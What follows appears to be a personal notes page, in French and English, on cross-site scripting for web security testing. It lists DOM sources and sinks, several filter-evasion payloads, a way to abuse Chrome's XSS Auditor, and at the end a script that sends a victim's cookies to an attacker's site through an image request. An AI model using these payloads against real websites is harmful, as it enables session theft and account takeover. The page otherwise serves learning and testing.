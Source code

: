 # XSS - Cross-Site Scripting

### Reflected

L'input de l'utilisateur est envoyé au serveur puis réfléchis sur la page.

### Stored

Pareil sauf que l'input est en plus persisté.

### DOM

L'input est directement inséré dans le DOM \(donc sans passer par le serveur\).

#### Sources \(where the input goes\)

* document.url
* document.referrer
* location
* location.href
* location.search
* location.hash
* location.pathname
* ...

#### Sinks \(where the input ends up\)

* element.innerHTML\(\)
* element.outerHTML\(\)
* eval\(\)
* setTimeout\(\)
* setInterval\(\)
* document.write\(\)
* document.writeln\(\)
* ...

#### Tips & Tricks

1. Un tag `<script>alert();</script>` inséré via `inner.html` ne sera en fait pas executé. Vaut mieux passer par un `<img src="test" onerror="alert(1337)" />`, ou encore plus simple : `<svg onload="alert(1337)">`

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

### Tips

* Start by checking which character are escaped by using them with a normal string that you can easily find in the result. Also use lists with _burp intruder_.
* Si les `<script>` ne sont pas accepté, utiliser les événements de type `onfocus`, `onload`, etc. Btw you can accumulate fonction in these event by separating them with `;`.
* `<sCRipt>` tag aren't case sensitive
* If the string tag is accepted but not word like "alert", you can do things like :
  * `eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))`
  * `eval("al"+"ert(1)")`
* Avec le http parameter pollution, s’il est concaténé, on peut aussi faire du xss
* C'est aussi possible de passer par du HTML5/CSS3/SVG
* [https://www.owasp.org/index.php/XSS\_Filter\_Evasion\_Cheat\_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* `javascript:alert(1337)` as url \(form action for example\)
* `data:text/html,<script>alert(0)</script>` in url
* Avec ce code

  ```javascript
  let name = (new URL(location).searchParams.get('name'))
  eval(`var = "bonjour ${name}"`)
  ```

On peut lui donner ce payload : `name="-alert(1337)-"` Mais j'ignore pourquoi les "-" font que ça marche, du coup ce que j'ai fait moi pour pas avoir d'erreur c'est : `name=";alert(1337);tmp="`

* Pour créer une string sans utiliser "" y'a 2 techniques :
  * eval du regex : `eval(/alert(1337)/.source())`
  * tostring un nombre avec une base : `17795081..toString(36)` \(j'ignore pourquoi le second . est obligatoire\)
* Break out of html comment : Si `<?php>` \(ou `<?>` car c'est son raccourci\) sont présent dans la réponse html, les navigateurs vont transformer ça en `<!--php-->` car ils ne veulent pas que du code serveur se retrouve accidentellement sur le client. Hors, les commentaires imbriqués n'existant pas en html, si on fait ça à l'intérieur d'un commentaire, ça va le terminer prématurément.
*  is a sign of using a django framework
* https can be in all caps \(HTTPS\)
* `google.com/jsapi?callback=alert` can be used to received a function in a callback

## XSS Auditor

* Il existe sur Chrome, pas sur firefox et je sais pas pour les autres
* Il risque de bientôt disparaître car il amène des vulnérabilités et permet aux devs de moins faire attention/moins corriger leurs failles XSS
* L’auditeur permet de remarquer des injections XSS. Pour cela, il compare ce qui est passé dans l’url aux scripts de la page \(très gros résumé\).
* Du coup, si on injecte le même script qu’un existant déjà dans la page, l’auditeur va le disable, pensant qu’il vient de nous, ce qui peut nous permettre d’ensuite faire d’autre choses

## How attacker actually get cookie

By example by injection this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

